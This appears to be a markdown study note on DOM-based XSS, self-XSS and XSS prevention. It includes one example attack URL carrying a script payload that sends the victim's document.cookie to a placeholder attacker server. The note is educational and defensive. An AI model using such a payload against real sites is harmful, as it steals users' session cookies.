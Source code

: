 **(Document Object Model) DOM-Based XSS**

- "_DOM-based_ XSS is similar to reflected XSS, except that in DOM-based XSS, the user input never leaves the user's browser. In DOM-based XSS, the application takes in user input, processes it on the victim's browser, and then returns it to the user."
- A "DOM" is a model that browsers use to render a web page.
- A DOM represents a web page's structures which defines basic properties and behavior for each HTML element and helps scripts access and modify the contents of the page.
- DOM-Based XSS targets the DOM directly; it attacks the client's local copy of the web page, it does not go through the server.
- JavaScript libraries like jQuery are often subject to DOM-Based XSS because they dynamically alter DOM elements.
- The XSS script is never sent to the server, so the HTTP response from the server doesn't change.
- ex.: A website allows the user to change their locale by submitting to a URL parameter:
  `https://example.com?local=north+america`
  - Submitting this will generate a client side response similar to:
    `<h2>Welcome, user from North America!</h2>`
  - This submission is used locally by the user's browser with a client-side script.
  - If the submission is not validated by the client-side script, the attacker could trick victim's into visiting a URL like:
    `https://example.com?local=<script>location='http://attacker_server_ip/?c='+document.cookie;</script>`
- "The user input fields that can lead to reflected and DOM-based XSS aren't always URL parameters. Sometimes they show up as URL fragments or pathnames."
  - URL _fragments_ are strings, located at the end of a URL, that begin with a # character.
  - Github uses these a lot to allow content creators to link to different sections within a longer .md file (like this one, you can view the RAW version of this document and see where the Table of Contents (TOC) links to different sections).
- Information and payload examples from [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/dom-based/)

**Self-XSS**

- "_Self-XSS_ attacks require victims to input a malicious payload themselves. To perform these, attackers must trick users into doing much more than simply viewing a page or browsing to a particular URL."
- "If you've ever seen social media posts or text messages telling you to paste a piece of code into your browser to "do something cool," it was probably attack code aimed at tricking you into launching self-XSS against yourself.
- These are often out of scope, because they require you to use social engineering to attack users directly.

**Prevention**

- Two main controls to prevent XSS:
  - Robust input validation.
  - Contextual output escaping and encoding.
- Apps should never insert user-submitted data directly into an HTML document.
  - Including inside <script> tags, HTML tag names, or attribute names.
  - The server should validate the user-submitted input doesn't contain dangerous characters that might influence the way browsers interpret the information.
  - You could block all requests that contain the <script> tag, for example, or sanitize it by removing or escaping special characters before further processing.
- Escaping is when you encode special characters so that they're interpreted literally instead of as special characters.
  - Encoding must be done in the format of the language being used (JavaScript for JavaScript, HTML for HTML, XML, JSON, CSS, etc.)
  - For HTML, "<" and ">" can be escaped with &lt and &gt.
- Escaping special characters so that the application won't interpret user input as code to execute is the most common way for modern apps to protect against XSS attacks.
